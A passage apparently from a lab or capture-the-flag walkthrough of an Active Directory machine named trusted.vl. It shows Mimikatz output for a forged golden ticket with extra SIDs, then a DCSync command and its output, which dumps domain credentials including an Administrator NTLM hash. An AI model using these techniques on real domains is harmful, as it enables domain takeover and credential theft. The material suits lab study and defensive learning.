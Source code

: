 ### OUTPUT

```output
ser      : Administrator
Domain    : lab.trusted.vl (LAB)
SID       : S-1-5-21-2241985869-2159962460-1278545866
User Id   : 500
Groups Id : *513 512 520 518 519 
Extra SIDs: S-1-5-21-3576695518-347000760-3731839591-519 ; 
ServiceKey: c7a03c565c68c6fac5f8913fab576ebd - rc4_hmac_nt      
Lifetime  : 9/29/2025 6:50:10 AM ; 9/27/2035 6:50:10 AM ; 9/27/2035 6:50:10 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ lab.trusted.vl' successfully submitted for current session



```

All that is left is to dump ntds from trusted.vl domain
```bash
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all

```

### OUTPUT
```output
SAM Username         : Domain Controllers
Object Security ID   : S-1-5-21-3576695518-347000760-3731839591-516
Object Relative ID   : 516

Credentials:

Object RDN           : DomainDnsZones


Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Object Security ID   : S-1-5-21-3576695518-347000760-3731839591-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 15db914be1e6a896e7692f608a9d72ef

Object RDN           : BCKUPKEY_0c265ae3-ef84-4900-9983-b1fbe71e738c Secret

  * Legacy key


```
